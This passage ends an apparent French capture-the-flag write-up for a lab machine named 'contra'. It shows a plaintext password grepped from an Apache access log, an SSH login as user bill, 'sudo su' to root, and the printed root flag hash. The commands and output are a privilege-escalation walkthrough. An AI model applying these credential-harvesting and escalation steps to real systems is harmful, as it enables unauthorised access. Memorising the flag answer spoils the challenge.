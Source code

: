 C'est encore *grep* qui nous sort de l'embarras :  

```plain
/var/log/apache2/access.log.1:::1 - - [16/Dec/2018:13:55:42 +0000] "GET /RecoveryUtility/newpass.php?newpassword=Sup3rp@ssw0rd99 HTTP/1.1" 200 463 "-" "curl/7.58.0"
```

Game Over
---------

On peut alors se connecter avec le compte bill en SSH. La suite c'est du déjà vu :  

```plain
bill@contra:~$ sudo -l
[sudo] password for bill:
Matching Defaults entries for bill on contra:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bill may run the following commands on contra:
    (ALL : ALL) ALL
bill@contra:~$ sudo su
root@contra:/home/bill# id
uid=0(root) gid=0(root) groups=0(root)
root@contra:/home/bill# cd
root@contra:~# ls
root.txt
root@contra:~# cat root.txt
8122079ae9ee220d2a655c739101c4f4
```


*Published November 17 2020 at 13:59*
